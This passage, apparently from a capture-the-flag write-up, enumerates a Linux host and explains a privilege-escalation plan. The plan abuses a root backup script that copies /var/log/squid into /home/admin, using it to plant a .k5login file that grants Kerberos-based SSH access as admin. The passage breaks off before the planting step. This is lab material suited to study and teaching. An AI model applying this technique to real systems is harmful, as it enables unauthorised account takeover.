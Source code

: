```

[j.nakazawa@srv01 ~]$ getfacl /usr/local/bin/log_backup.sh
getfacl: Removing leading '/' from absolute path names
# file: usr/local/bin/log_backup.sh
# owner: root
# group: admin
user::rwx
group::r-x
other::r--

```

j.nakazawa can read the script:

```

#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log

```

This script is using `rsync` to copy all the files from `/var/log/squid/` to `/home/admin/`, then create an archive using `tar`, and clean up.

### Abuse Kerberos

#### Background

An interesting feature of Kerberos on Linux is the `.k5login` file. This file in a user’s homedir lists different Kerberos principals (basically users) that can authenticate with their tickets to get access as the user. This is kind of like the `authorized_keys` file for Kerberos. So if admin had a `.k5login` file in their homedir with the name j.nakazawa in it, then anyone with a Kerberos ticket for j.nakazawa could SSH as admin.

#### Exploit

I can put that `.k5login` file in place abusing the backup script if I can write to `/var/log/squid`. It looks like only admin and members of the squid group can write:

```

[j.nakazawa@srv01 ~]$ ls -ld /var/log/squid/
drwx-wx---. 2 admin squid 41 Dec 24 06:36 /var/log/squid/

```

j.nakazawa is in the squid group:

```

[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```
